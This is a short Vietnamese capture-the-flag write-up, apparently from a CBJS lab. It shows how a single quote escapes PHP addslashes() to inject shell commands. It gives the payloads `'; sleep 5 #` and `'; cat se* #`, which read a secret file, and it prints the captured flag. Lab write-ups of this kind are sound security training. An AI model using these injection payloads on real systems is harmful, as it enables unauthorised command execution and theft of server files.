

* Level 1 khá đơn giản, backend sử dụng hàm `addslashes()` trong PHP để thêm dấu backslash khi phát hiện các ký tự:

```
single quote (')
double quote (")
backslash (\)
NUL (the NUL byte)
```

→ Vậy payload sẽ là: `'; sleep 5 #` 

* Giải thích:

```plaintext
'; sleep 5 #
↑  ↑   ↑   ↑
│  │   │   └── #       → comment phần còn lại
│  │   └────── sleep 5 → lệnh thực thi
│  └────────── ;       → thực thi lệnh tiếp theo
└───────────── '       → đóng quote → escape ra ngoài
```

* Mục tiêu là đọc được file secret ở dưới backend, nên em đã đổi payload thành: `'; cat se* #` là đã đọc được flag: `CBJS{b38e625204bd8d09089d3eacc3a9c862}`

